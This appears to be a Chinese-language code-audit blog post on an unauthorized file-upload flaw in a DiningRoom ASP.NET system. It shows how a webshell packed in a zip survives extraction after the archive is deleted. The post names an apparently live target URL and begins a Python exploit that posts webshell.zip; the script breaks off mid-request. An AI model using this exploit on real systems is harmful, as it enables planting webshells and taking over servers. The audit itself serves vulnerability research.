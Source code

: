 演示图：
![](https://autoing.netlify.com/source/do/images/codeaudit/codeaudit-dr13.gif)

### 0x04未授权文件上传
时隔半个月，又再一次看这套代码，同事天天吓唬说某数字安全公司说又挖到了啥漏洞，没办法，我们做的是同一个项目，两家公司做的同一个项目…

一直不喜欢挖后端漏洞，但是蚊子腿也是肉啊，然后挖到一个后台文件上传，在编写EXP的过程，这个漏洞又变成了未授权文件上传。

漏洞链接，直接访问是需要登录的：http://16f782g826.iok.la/dr/db/DBRS.aspx

来看代码：

漏洞出现在db\DBRS.aspx文件的引用文件bin\DiningRoom.PageLib.dll的db_DBRS.cs类文件第59-77行代码（）：
![](https://autoing.netlify.com/source/do/images/codeaudit/codeaudit-dr14.png)


第63-66行代码，这里从右到左判断文件扩展名是否是.zip扩展名的，所以不管在前端怎么改，只要扩展名不是.zip的都无法突破这里，函数代码如下（同文件第114-125行代码）：
![](https://autoing.netlify.com/source/do/images/codeaudit/codeaudit-dr15.png)


第69-71行代码，这里主要是通过上一步验证后保存文件，然后解压文件
第72行代码（漏洞所在行），这里是删除上传后的压缩包文件，但是解压后的文件不会删除，那么这里就可以把webshell打包成zip文件，上传后程序会把webshell解压出来，然后删除上传的压缩包，而webshell不会被删除。

来看看上传的数据包：
![](https://autoing.netlify.com/source/do/images/codeaudit/codeaudit-dr16.png)


在编写EXP的过程中，登陆之后的CSRF值一直没办法获取到，要不就是上传跳转到登录页面，然后…把这个值删了，上传成功！就变成未授权文件上传了。

```code
import requests
import sys
import re

url = sys.argv[1]

# 这里还是文件上传的头部，从上传的数据包提取
headers = {"Content-Type": "multipart/form-data; boundary=----WebKitFormBoundarywwugP6jAQok20T1v"}
# 上传文件的POST数据包，上传的文件要二进制编码之后放进去，不能Python直接二进制编码，不然上传后的压缩包会出错
post_data = '''
------WebKitFormBoundarywwugP6jAQok20T1v
Content-Disposition: form-data; name="__EVENTTARGET"


------WebKitFormBoundarywwugP6jAQok20T1v
Content-Disposition: form-data; name="__EVENTARGUMENT"


------WebKitFormBoundarywwugP6jAQok20T1v
Content-Disposition: form-data; name="__VIEWSTATE"


------WebKitFormBoundarywwugP6jAQok20T1v
Content-Disposition: form-data; name="__VIEWSTATEENCRYPTED"


------WebKitFormBoundarywwugP6jAQok20T1v
Content-Disposition: form-data; name="FileUpload1"; filename="webshell.zip"
Content-Type: application/zip

```